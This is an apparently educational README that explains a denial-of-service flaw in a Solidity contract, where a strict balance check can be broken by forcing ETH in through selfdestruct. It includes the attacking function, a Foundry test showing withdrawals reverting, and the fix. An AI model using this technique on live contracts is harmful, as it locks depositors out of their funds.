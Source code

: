 # Mishandling of Ethereum

The provided Solidity smart contracts demonstrate a vulnerability that can lead an attack on the `Victim` contract. The vulnerability lies in the `withdraw` function of the `Victim` contract.

## `Victim` Contract

The `Victim` contract has a `withdraw` function with the following problematic line:

```solidity
require(address(this).balance == totalDeposits); // bad
```

This line checks whether the contract's current ETH balance is equal to the `totalDeposits` variable. The intention seems to be to ensure that the contract only allows withdrawals when the ETH balance matches the total deposits made. However, this check is flawed and can be exploited.

## Exploitation through `AttackVictim` Contract

The attacker deploys an `AttackVictim` contract, initialized with the `Victim` contract as the target. The `AttackVictim` contract contains an `attack` function that triggers a `selfdestruct` to the target `Victim` contract, effectively sending all the funds to the `Victim` contract.

```solidity
function attack() external payable {
    selfdestruct(payable(address(target)));
}
```

## Attack Process

1. **User Deposits to Victim:**
   - An external user initiates a deposit of 1 Ether to the `Victim` contract using the `hoax` function.
   - The `deposit` function of the `Victim` contract is called with 1 Ether.

2. **Attacker Triggers `selfdestruct`:**
   - The test script deploys the `AttackVictim` contract, initialized with the `Victim` contract as the target.
   - The `attack` function is called, triggering a `selfdestruct` to the `Victim` contract, sending all funds to it.

3. **Victim Contract Balance Mismatch:**
   - After the `selfdestruct` in the `AttackVictim` contract, the `Victim` contract's ETH balance becomes greater than the `totalDeposits`.

4. **User Attempt to Withdraw:**
   - The user attempts to withdraw their deposit from the `Victim` contract using the `withdraw` function.

5. **Revert due to Vulnerable Check:**
   - The `withdraw` function of the `Victim` contract contains a check (`require`) that expects the contract's balance to be exactly equal to `totalDeposits`.
   - Since the `totalDeposits` is less than the actual balance due to the `selfdestruct`, the check fails, and the transaction reverts.
  
6. **Denial-of-Service (DoS):**
   - The user is unable to withdraw their funds, resulting in a DoS situation where legitimate users are prevented from accessing their deposited funds.

   #### AttackTest.t.sol
```solidity
   // SPDX-License-Identifier: MIT
pragma solidity 0.8.20;

import {Test, console} from "forge-std/Test.sol";
import {Victim} from "src/Victim.sol";
import {AttackVictim} from "src/AttackVictim.sol";

contract AttackTest is Test {
    Victim victim;
    AttackVictim attack;

    address user = address(1);

    function setUp() public {
        victim = new Victim();
        attack = new AttackVictim{value: 1 ether}(victim);
    }

    function test_selfdestructAttack() public {
        
        // An user deposit to victim contract
        hoax(user, 1 ether);
        victim.deposit{value: 1 ether}();

        // attack the victim contract
        attack.attack();

        uint256 victimBalanceBefore = address(victim).balance;
        console.log("Victim contract balance before withdraw:" , victimBalanceBefore);

        // user try withdraw
        vm.prank(user);
        vm.expectRevert();
        victim.withdraw();

        uint256 victimBalanceAfter = address(victim).balance;
        console.log("Victim contract balance after withdraw:" , victimBalanceAfter);

    }
}
```

## Mitigation

To address this vulnerability, the `withdraw` function in the `Victim` contract should be modified to use a `>=` check instead of `==`:

```solidity
require(address(this).balance >= totalDeposits); // fixed
```

This change ensures that the contract allows withdrawals as long as the available ETH balance is at least equal to the total deposits made, preventing the DoS attack.

## Installation 🛠️

1. Clone the repository:
```shell
git clone https://github.com/ionOM/smart-contract-attacks.git
```

2. Move to the self-destruct folder:
```shell
cd smart-contract-attacks/mishandling-of-eth/self-destruct
```
3. When you are in the self-destruct folder, type in the console:
```shell
forge test -vvv
```

